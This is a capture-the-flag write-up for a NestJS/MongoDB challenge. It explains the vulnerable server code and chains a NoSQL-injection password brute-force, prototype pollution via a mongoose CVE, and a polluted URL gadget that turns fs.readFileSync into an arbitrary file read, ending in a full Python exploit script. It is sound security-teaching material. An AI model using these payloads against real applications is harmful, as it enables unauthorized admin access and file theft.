


## Weird NestJS  



This challenge involves a NestJS server built with TypeScript.  

There is a flag file bundled with the source code and it isn't referenced anywhere in the source, so we can assume that we are meant to get an arbitrary file read or LFI somehow. This will come in handy later.  



User accounts are handled with MongoDB, and a default admin account is created.  

```ts
var conn = new Mongo();

var db = conn.getDB('nest');

db.users.insertMany([
  { id: 'guest', password: crypto.randomBytes(16).toString('hex') },
  { id: 'admin', password: crypto.randomBytes(16).toString('hex') },
]);
```

There is a `/file` endpoint where access is controlled by an `AdminRoleGuard` guard.  

```ts
@Controller('file')
export class FileController {
  constructor(private readonly fileService: FileService) {}

  @UseGuards(AdminRoleGuard)
  @Get()
  async getFile(): Promise<any> {
    return await this.fileService.getFile();
  }
}
```

`AdminRoleGuard` has a few checks, requiring us to be logged into an account with `admin` as the `id` and `role`, and we must also supply the admin account's password in the `password` URL parameter.  

```ts
@Injectable()
export class AdminRoleGuard implements CanActivate {
  constructor(
    @Inject(UserService)
    private readonly userService: UserService) {}

  async canActivate(
    context: ExecutionContext,
  ): Promise<boolean> {
    const req = context.switchToHttp().getRequest();

    const user = await this.userService.getUser('admin', req.query.password);
    if (req.user.role !== 'ADMIN' || req.user.id !== 'admin' || user.password !== req.query.password) return false;

    return true;
  }
}
```

The `/user` endpoint handles logins by querying the MongoDB database for accounts.  

Right away, we will notice a NoSQLi vuln, as `id` and `password` are used to construct the query object without proper validation.  

```ts
// user.controller.ts
@Controller('user')
export class UserController {
  ...

  @Get('get')
  async getUser(
    @Query('id') id: string,
    @Query('password') password: string,
  ): Promise<any> {
    const user = await this.userService.getUser(id, password);
    return await this.userService.getAccessToken(user);
  }
}

// user.service.ts
@Injectable()
export class UserService {
  ...

  async getUser(id: string, password: string): Promise<UserDocument> {
    const user = await this.userModel.findOne({ id: id, password: password }).lean();
    if (!user) throw new HttpException('User Not Found.', 404);

    return user;
  }

  async getAccessToken(user: UserDocument): Promise<any> {
    delete user['password'];

    const accessToken = this.jwtService.sign(user, { expiresIn: '1y' });

    return { token: accessToken };
  }

}
```

NestJS provides syntax for passing URL parameters as dictionaries, and we can abuse this to achieve NoSQLi.  

We first set `password.__proto__.a` to a string to bypass type enforcements by the server DTO, then use the `$regex` operator to bruteforce each character in the admin password.  

```
GET /user/get?id=admin&password[__proto__][a]=a&password[$regex]=^a
```

Using our NoSQLi oracle, we can leak the admin password and retrieve an admin-level JWT token, passing the aforementioned `id` and `password` checks.  

```python
# bruteforce admin password
admin_pw = ''

while len(admin_pw) < 32:
    for char in string.hexdigits[:16]:
        print("Trying:", char, '|', admin_pw)

        res = s.get(f'{url}/user/get?id=admin&password[__proto__][a]=a&password[$regex]=^{admin_pw + char}')

        if 'token' in res.text:
            admin_pw += char
            break

# get jwt token
token = res.json()['token']

s.headers.update({
    'Authorization': f'Bearer {token}'
})
```

Bypassing the `role` check isn't that straightforward, as if we recall the MongoDB initialisation previously, the default accounts are created without any `role` fields.  

However, the server also provides a `/config` endpoint with some interesting methods.  

```ts
@Controller('config')
export class ConfigController {
  constructor(private readonly configService: ConfigService) {}

  @Get()
  async getAllConfig(): Promise<ConfigDocument[]> {
    return await this.configService.getAllConfig();
  }

  @Post()
  async createConfig(@Body() data: object): Promise<ConfigDocument> {
    return await this.configService.createConfig(data);
  }

  @Patch()
  async manageConfig(@Body() data: ManageConfigDto): Promise<ConfigDocument> {
    return await this.configService.manageConfig(data);
  }
}
```

The `/config` methods allow us to build and apply `$rename` updates without any validation. We will immediately notice a prototype pollution sink, where `updateObject["$rename"][oldField]` is assigned without any validation on `oldField`.  

```ts
@Injectable()
export class ConfigService {
  constructor(
    @InjectModel(Config.name)
    private configModel: Model<ConfigDocument>,
  ) {}

  async getAllConfig(): Promise<any> {
    const configs = await this.configModel.find();

    return configs;
  }

  async createConfig(obj: object): Promise<ConfigDocument> {
    const config = new this.configModel({
      data: obj,
    });

    await config.save();

    return config;
  }

  async manageConfig(data: ManageConfigDto): Promise<any> {
    const config = await this.configModel.findById(data.config);
    if (!config) throw new HttpException('configDB Not Found.', 404);

    const updateObject = {};
    data.field.forEach(([oldField, newField]) => {
      updateObject["$rename"] = updateObject["$rename"] || {};
      updateObject["$rename"][oldField] = newField;
    });
    console.log(updateObject);
    const result = await this.configModel.findByIdAndUpdate(data.config, updateObject);

    return result;
  }

}
```

`package.json` confirms that the `mongoose` version installed on the server is vulnerable to the [CVE-2023-3696](https://security.snyk.io/vuln/SNYK-JS-MONGOOSE-5777721), which gives global prototype pollution.  

```json
{
  "name": "weird-nestjs",
  "version": "0.0.1",
  "description": "",
  "author": "",
  "private": true,
  "license": "UNLICENSED",
  
  ...

  "dependencies": {
    "@nestjs/common": "^9.0.0",
    "@nestjs/config": "^3.0.0",
    "@nestjs/core": "^9.0.0",
    "@nestjs/jwt": "^10.1.0",
    "@nestjs/mongoose": "^10.0.1",
    "@nestjs/platform-express": "^9.0.0",
    "@nestjs/swagger": "^7.1.7",
    "@types/lodash": "^4.14.196",
    "class-transformer": "^0.5.1",
    "class-validator": "^0.14.0",
    "helmet": "^7.0.0",
    "lodash": "^4.17.21",
    "mongoose": "7.3.2",
    "nestjs-swagger-dto": "^3.5.0",
    "reflect-metadata": "^0.1.13",
    "rxjs": "^7.2.0"
  },
  ...
```

Using this CVE, we can pollute `Object.prototype.role` to `ADMIN`, passing the final check in `AdminRoleGuard` and giving us access to `/file`.  

```python
def pollute(prop, value):
    res = s.post(f'{url}/config', json={ prop: value })

    config_id = res.json()['_id']

    res = s.patch(f'{url}/config', json={
        'config': config_id,
        'field': [ [f"data.{prop}", f'__proto__.{prop}'] ]
    })

    # trigger mongoose hydration for proto pollution
    res = s.get(f'{url}/config')

# get admin access
pollute('role', 'ADMIN')
```

However, if we inspect the `getFile()` implementation of `/file`, we will notice a huge issue.  

The path argument supplied to `fs.readFileSync()` is an object, and this will cause `readFileSync()` to throw an error, as the path is expected to be a string or a similar datatype.  

```ts
@Injectable()
export class FileService {
  constructor() {}

  async getFile(): Promise<any> {
    // TODO: Handling Requests by Receiving File Path
    // @ts-ignore
    return fs.readFileSync({ message: "This feature will be announced in 2050. (TBA)" }, { encoding: "utf-8" });
  }

}
```

`/file` doesn't allow us to supply any inputs or provide any sinks to control the filepath, so we can assume that we have to leverage our prototype pollution gadget from earlier to modify its state somehow.  

If we inspect the [source code](https://github.com/nodejs) for `fs` and trace the flow of `readFileSync()`, we will notice that `getValidatedPath()` is used to validate the datatype of the filepath supplied.  

Interestingly, `getValidatedPath()` calls a `toPathIfFileURL()` function on the filepath before validation.  

```js
// utils.js
const getValidatedPath = hideStackFrames((fileURLOrPath, propName = 'path') => {
  const path = toPathIfFileURL(fileURLOrPath);
  validatePath(path, propName);
  return path;
});

// fs.js
function readFileSync(path, options) {
  options = getOptions(options, { flag: 'r' });

  if (options.encoding === 'utf8' || options.encoding === 'utf-8') {
    if (!isInt32(path)) {
      path = pathModule.toNamespacedPath(getValidatedPath(path));
    }
    return binding.readFileUtf8(path, stringToFlags(options.flag));
  }
}
```

Looking at `toPathIfFileURL()`, we will spot our sink. `toPathIfFileURL()` uses `isURL()` to check if the filepath is a `URL` object, and converts it to a string if it is.  

`isURL()` blindly checks the filepath for `.href` and `.protocol` attributes, and we can pollute these to legitimate values to trick it into detecting the `message` object as a `URL` object.  

```js
// url.js
function isURL(self) {
  return Boolean(self?.href && self.protocol && self.auth === undefined && self.path === undefined);
}

...

function toPathIfFileURL(fileURLOrPath) {
  if (!isURL(fileURLOrPath))
    return fileURLOrPath;
  return fileURLToPath(fileURLOrPath);
}
```

`fileURLToPath()` calls `getPathFromURLPosix()` to convert the `message` object into an actual string filepath.  

It expects `.protocol` to be `file:`, `.hostname` to be an empty string, and `.pathname` to be a valid filepath. Again, we can use our pollution gadget to modify these.  

```js
// url.js
function getPathFromURLPosix(url) {
  if (url.hostname !== '') {
    throw new ERR_INVALID_FILE_URL_HOST(platform);
  }
  const pathname = url.pathname;
  for (let n = 0; n < pathname.length; n++) {
    if (pathname[n] === '%') {
      const third = StringPrototypeCodePointAt(pathname, n + 2) | 0x20;
      if (pathname[n + 1] === '2' && third === 102) {
        throw new ERR_INVALID_FILE_URL_PATH(
          'must not include encoded / characters',
          url,
        );
      }
    }
  }
  // Fast-path: if there is no percent-encoding, avoid decodeURIComponent.
  return StringPrototypeIncludes(pathname, '%') ? decodeURIComponent(pathname) : pathname;
}

...

function fileURLToPath(path, options = kEmptyObject) {
  const windows = options?.windows;
  if (typeof path === 'string')
    path = new URL(path);
  else if (!isURL(path))
    throw new ERR_INVALID_ARG_TYPE('path', ['string', 'URL'], path);
  if (path.protocol !== 'file:')
    throw new ERR_INVALID_URL_SCHEME('file');
  return (windows ?? isWindows) ? getPathFromURLWin32(path) : getPathFromURLPosix(path);
}
```

We can use our pollution gadget to hijack the `readFileSync()` call and modify the `message` object to a pseudo `URL` object, successfully getting `readFileSync()` to interpret it as the flag file path.  

After that, we can just request `/file` to get our flag.  

```python
pollute('href', 'a')
pollute('hostname', '')
pollute('pathname', './flag')
pollute('protocol', 'file:')
```

Below is my full solve script for this challenge.  

```python
import requests
import string

url = 'http://host3.dreamhack.games:18235/'
s = requests.Session()

# nosqli oracle
admin_pw = ''

while len(admin_pw) < 32:
    for char in string.hexdigits[:16]:
        print("Trying:", char, '|', admin_pw)

        res = s.get(f'{url}/user/get?id=admin&password[__proto__][a]=a&password[$regex]=^{admin_pw + char}')

        if 'token' in res.text:
            admin_pw += char
            break

print("> Admin password:", admin_pw)

# get jwt token
assert 'token' in res.text

token = res.json()['token']
print("> Admin token:", token)

s.headers.update({
    'Authorization': f'Bearer {token}'
})

# CVE-2023-3696
def pollute(prop, value):
    res = s.post(f'{url}/config', json={ prop: value })

    config_id = res.json()['_id']

    res = s.patch(f'{url}/config', json={
        'config': config_id,
        'field': [ [f"data.{prop}", f'__proto__.{prop}'] ]
    })

    # trigger mongoose hydration for proto pollution
    res = s.get(f'{url}/config')

    print(f'> Polluted: {prop} -> {value}')

# get admin access
pollute('role', 'ADMIN')

# hijack readFileSync()
pollute('href', 'a')
pollute('hostname', '')
pollute('pathname', './flag')
pollute('protocol', 'file:')

res = s.get(f'{url}/file', params={
    'password': admin_pw
})

print("Flag:", res.text)
```

Flag: `DH{N3stJS_1s_fri3nds_w1th_3xpr3ss!}`